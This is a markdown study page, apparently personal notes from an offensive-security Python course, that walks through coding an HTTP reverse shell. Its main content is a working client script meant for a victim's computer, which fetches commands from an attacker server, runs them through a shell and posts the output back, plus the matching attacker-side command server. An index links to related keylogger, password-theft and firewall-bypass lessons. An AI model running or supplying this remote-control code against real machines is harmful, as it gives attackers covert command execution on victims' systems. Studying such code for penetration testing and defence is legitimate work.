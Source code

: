 ```yaml
---
title: Coding an http reverse shell
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - python
  - python pentesting
  - scripting
  - reverse shell
---
```


#  Coding an http reverse shell

From course: [Python For Offensive PenTest: A Complete Practical Course](https://www.udemy.com/course/python-for-offensive-security-practical-course/).

??? abstract "General index of the course"
	- Gaining persistence shells (TCP + HTTP):
		- [Coding a TCP connection and a reverse shell](coding-a-tcp-reverse-shell.md).
		- [Coding a low level data exfiltration  - TCP connection](coding-a-low-level-data-exfiltration-tcp.md).
		- [Coding an http reverse shell](coding-an-http-reverse-shell.md).
		- [Coding a data exfiltration script for a http shell](coding-a-data-exfiltration-script-http-shell.md).
		- [Tunning the connection attempts](tunning-the-connection-attemps.md).
		- [Including cd command into TCP reverse shell](including-cd-command-into-tcp-reverse-shell.md).
	- Advanced scriptable shells:
		- [Using a Dynamic DNS instead of your bared attacker public ip](ddns-aware-shell.md).
		- [Making your binary persistent](making-your-binary-persistent.md). 
		- [Making a screenshot](making-a-screenshot.md). 
		- [Coding a reverse shell that searches files](coding-a-reverse-shell-that-searches-files.md). 
	- Techniques for bypassing filters: 
		- [Coding a reverse shell that scans ports](coding-a-reverse-shell-that-scans-ports.md). 
		- [Hickjack the Internet Explorer process to bypass an host-based firewall](hickjack-internet-explorer-process-to-bypass-an-host-based-firewall).
		- [Bypassing Next Generation Firewalls](bypassing-next-generation-firewalls.md).
		- [Bypassing IPS with handmade XOR Encryption](bypassing-ips-with-handmade-xor-encryption.md).
	- Malware and crytography:
		- [TCP reverse shell with AES encryption](tcp-reverse-shell-with-aes-encryption.md).
		- [TCP reverse shell with RSA encryption](tcp-reverse-shell-with-rsa-encryption.md).
		- [TCP reverse shell with hybrid encryption AES + RSA](tcp-reverse-shell-with-hybrid-encryption-rsa-aes.md).
	- Password Hickjacking:
		- [Simple keylogger in python](python-keylogger.md).
		- [Hijacking Keepass Password Manager](hijacking-keepass.md).
		- [Dumping saved passwords from Google Chrome](dumping-chrome-saved-passwords.md).
		- [Man in the browser attack](man-in-the-browser-attack.md).
		- [DNS Poisoning](dns-poisoning.md).
	- Privilege escalation:
		- [Weak service file permission](privilege-escalation.md).


## Client side

To be run on victim's computer.

```bash
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2

import requests
import subprocess
import time

while True:

    req = requests.get('http://192.168.0.152:8080') # Send GET request to our kali server
    command = req.text # Store the received txt into command variable

    if 'terminate' in command:
        break

    else:
        CMD = subprocess.Popen(command, shell=True,stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
        post_response = requests.post(url='http://192.168.0.152:8080', data=CMD.stdout.read()) # POST the result
        post_response = requests.post(url='http://192.168.0.152:8080', data=CMD.stderr.read()) # or the error -if any-

    time.sleep(3)

```


## Server side

To be run on attacker's computer.

```bash
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2

import http.server

HOST_NAME = "192.168.0.152" // our attacker machine
PORT_NUMBER = 8080 // attacker listening port

class MyHandler(http.server.BaseHTTPRequestHandler): # MyHandler defines what we should do when we receive a GET/POST

    def do_GET(self):

        command = input("Shell> ")
        self.send_response(200)
        self.send_header("Content-type", "text/html")
        self.end_headers()
        self.wfile.write(command.encode())

    def do_POST(self):

        self.send_response(200)
        self.end_headers()
        length = int(self.headers['Content-length']) #Define the length which means how many bytes the HTTP POST data contains, the length value has to be integer
        postVar = self.rfile.read(length)
        print(postVar.decode())

if __name__ == "__main__":

    # We start a server_class and create httpd object and pass our kali IP,port number and class handler(MyHandler)
    server_class = http.server.HTTPServer
    httpd = server_class((HOST_NAME, PORT_NUMBER), MyHandler)
    try:
        httpd.serve_forever() # start the HTTP server, however if we got ctrl+c we will Interrupt and stop the server
    except KeyboardInterrupt:
        print('[!] Server is terminated')
        httpd.server_close()


```